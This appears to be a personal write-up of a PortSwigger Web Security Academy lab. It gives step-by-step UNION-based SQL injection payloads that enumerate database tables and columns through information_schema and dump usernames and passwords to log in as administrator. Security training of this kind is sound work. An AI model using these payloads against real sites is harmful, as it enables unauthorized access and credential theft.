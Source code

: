 # Lab: SQL injection attack, listing the database contents on non-Oracle databases :four:
###### tags: `Portswigger Web Security Academy` `Web`
* Description:  This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.
The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users. 
* Goal: To solve the lab, log in as the administrator user.

## Exp
1. Determine # of columns
Payload: `?category=Gifts' union select NULL,NULL --`

2. Determine which column contained text string
Payload: `?category=Gifts' union select 'a','b' --`

3. According to [cheat sheet](https://portswigger.net/web-security/sql-injection/examining-the-database)
We can use `information_schema.tables` to search `table_name`
For instance: `SELECT * FROM information_schema.tables`
![](https://i.imgur.com/ThON4MR.png)

    Payload: `?category=Gifts' union SELECT TABLE_NAME,NULL FROM information_schema.tables--`
    :::spoiler Result
    ![](https://i.imgur.com/DhL1g5i.png)
    :::
4. Then tried the specific one - `users_rjrgxf`
Payload: `?category=Gifts' union SELECT COLUMN_NAME,NULL FROM information_schema.columns WHERE table_name = 'users_rjrgxf'--
`
    :::spoiler Result
    ![](https://i.imgur.com/egzZ49U.png)
    :::
5. Tried dig deeper
    Payload: `?category=Gifts' union SELECT username_ngqqos,password_jraqsv FROM users_rjrgxf--
    `
    Then you'll get the password of `administrator` $\to$ login directrly
    :::spoiler Success Screenshot
    ![](https://i.imgur.com/CKhLZdj.png)
    :::

## Reference